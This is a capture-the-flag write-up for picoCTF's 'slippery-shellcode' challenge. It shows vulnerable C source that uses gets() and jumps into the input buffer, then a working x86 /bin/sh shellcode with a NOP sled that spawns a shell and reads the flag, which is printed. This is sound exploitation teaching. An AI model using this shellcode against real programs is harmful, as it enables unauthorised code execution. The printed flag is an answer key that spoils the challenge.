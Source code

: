 
# Binary Exploitation - slippery-shellcode (200 points)

## Challenge

*This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_0_7440dd178b8f0686410008ac1268d808 on the shell server. Source.*

![Challenge](./_images/binary_exploitation_slippery-shellcode_challenge.png)

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

## Flag

picoCTF{sl1pp3ry_sh311c0d3_2dd645d1}

## Walkthrough

This challenge is the same that "Handy-shellcode" except that a random offset is added to your payload pointer:

```C
int offset = (rand() % 256) + 1;
((void (*)())(buf+offset))();
```

Hence, if we use the same shellcode as "handy-shellcode" we end with a segfault because the pointer to our function won't start at it's beginning, but somewhere random inside the shellcode:

```bash
m3oow@pico-2019-shell1:/problems/slippery-shellcode_0_7440dd178b8f0686410008ac1268d808$ (echo -en "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

1�1�1�1�Phn/shh//bi��
                    ̀
Thanks! Executing from a random location now...

Segmentation fault (core dumped)
```

But we can use the NOP instruction so that even with an offset, the call to `buf+offset` will just "slip" to our shellcode:

```bash
m3oow@pico-2019-shell1:/problems/slippery-shellcode_0_7440dd178b8f0686410008ac1268d808$ (echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

��������������������������������������������������������������������������������������������������������������������������1�1�1�1�Phn/shh//bi��
                                                                                                                                              ̀
Thanks! Executing from a random location now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{sl1pp3ry_sh311c0d3_2dd645d1}
```
